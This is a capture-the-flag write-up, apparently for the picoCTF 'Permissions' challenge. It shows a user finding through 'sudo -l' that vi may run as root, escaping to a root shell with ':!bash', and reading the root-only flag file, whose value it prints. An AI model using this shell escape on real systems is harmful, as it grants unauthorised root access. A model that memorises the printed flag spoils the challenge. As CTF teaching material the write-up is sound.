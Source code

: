 ---
tags: []
---
# Permissions

- **Description:** Can you read files in the root file?
- **Difficulty:** Medium

---

## 🔎 Solution
The objective of this challenge is to gain sufficient privileges to access the `/root` directory.

After connecting to the target, we navigate to `/` and run `ls -la` to inspect detailed permissions of files and directories. 
```js
picoplayer@challenge:/$ ls -la
total 0
drwxr-xr-x   1 root   root     51 Aug 13 05:35 .
drwxr-xr-x   1 root   root     51 Aug 13 05:35 ..
-rwxr-xr-x   1 root   root      0 Aug 13 05:35 .dockerenv
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot
d---------   1 root   root     27 Aug  4  2023 challenge
drwxr-xr-x   5 root   root    340 Aug 13 05:35 dev
drwxr-xr-x   1 root   root     66 Aug 13 05:35 etc
drwxr-xr-x   1 root   root     24 Aug  4  2023 home
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32
drwxr-xr-x   2 root   root      6 Mar  8  2023 media
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt
dr-xr-xr-x 286 nobody nogroup   0 Aug 13 05:35 proc
//highlight-next-line
drwx------   1 root   root     23 Aug  4  2023 root
drwxr-xr-x   1 root   root     54 Aug 13 05:35 run
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv
dr-xr-xr-x  13 nobody nogroup   0 Aug 13 05:35 sys
drwxrwxrwt   1 root   root      6 Aug  4  2023 tmp
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr
drwxr-xr-x   1 root   root     17 Mar  8  2023 var
```

The `/root` directory is owned by root with `rwx------` permissions, meaning only the **root** user can access it, while the group and others have no permissions at all. 
Since our current user is **picoplayer**, we cannot enter `/root` directly.

Checking `sudo -l`, we find that we are allowed to run `/usr/bin/vi` as root. This can be leveraged to spawn a root shell. 
```
picoplayer@challenge:/$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
From picoplayer, we execute:
```
sudo vi
```
Inside `vi`, we enter:
```
:!bash
```
The `:!` command in `vi` allows us to execute arbitrary shell commands. In this case, it drops us into a root shell.

With root privileges, we can now access `/root` and retrieve the contents of the flag file.
```
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Aug 13 05:35 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```
## 🚩Flag
> `picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}`